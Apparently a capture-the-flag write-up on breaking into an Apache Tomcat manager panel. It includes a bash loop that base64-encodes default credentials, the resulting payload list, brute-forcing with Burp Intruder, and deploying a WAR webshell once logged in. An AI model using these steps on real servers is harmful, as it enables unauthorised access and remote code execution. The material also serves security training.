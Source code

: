 If you go to the default directory /manager/html for the admin panel use the default credentials. Someone posted the list on GitHub: https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
You can use a bash script to get the hashes like this:
```bash
$ for cred in $(cat /home/user/directory/sub_directory/tomcat_userpass.txt); do echo -n $cred | base64; done
```
which will generate this list here:

```bash
YWRtaW46cGFzc3dvcmQ=
YWRtaW46
YWRtaW46UGFzc3dvcmQx
YWRtaW46cGFzc3dvcmQx
YWRtaW46YWRtaW4=
YWRtaW46dG9tY2F0
Ym90aDp0b21jYXQ=
bWFuYWdlcjptYW5hZ2Vy
cm9sZTE6cm9sZTE=
cm9sZTE6dG9tY2F0
cm9sZTpjaGFuZ2V0aGlz
cm9vdDpQYXNzd29yZDE=
cm9vdDpjaGFuZ2V0aGlz
cm9vdDpwYXNzd29yZA==
cm9vdDpwYXNzd29yZDE=
cm9vdDpyMDB0
cm9vdDpyb290
cm9vdDp0b29y
dG9tY2F0OnRvbWNhdA==
dG9tY2F0OnMzY3JldA==
dG9tY2F0OnBhc3N3b3JkMQ==
dG9tY2F0OnBhc3N3b3Jk
dG9tY2F0Og==
dG9tY2F0OmFkbWlu
dG9tY2F0OmNoYW5nZXRoaXM=
```

ou can then go ahead and use it with BurpSuite's Intruder: Payload type Sniper. Remember to uncheck the URL box. 

Somehow Metasploit's bruteforcing with wordlists doesn't work, even if you slow it down.
Not a big deal, you can just try your luck manually which actually worked instantly for me using tomcat:s3cret. If I remember correctly their 403 even suggests that combination lol



Ok, so now you have user access to the server. Good enough to upload and deploy files. Tomcat is a java application server and works with WAR files. Fortunately, someone uploaded a war webshell to GitHub. Using our tomcat:s3cret user we go ahead and deploy the websell manually. https://github.com/BustedSec/webshell/blob/master/webshell.war

<img src="/assets/images/ctf1/war_file_to_deploy.png" height="100%" width="100%">
  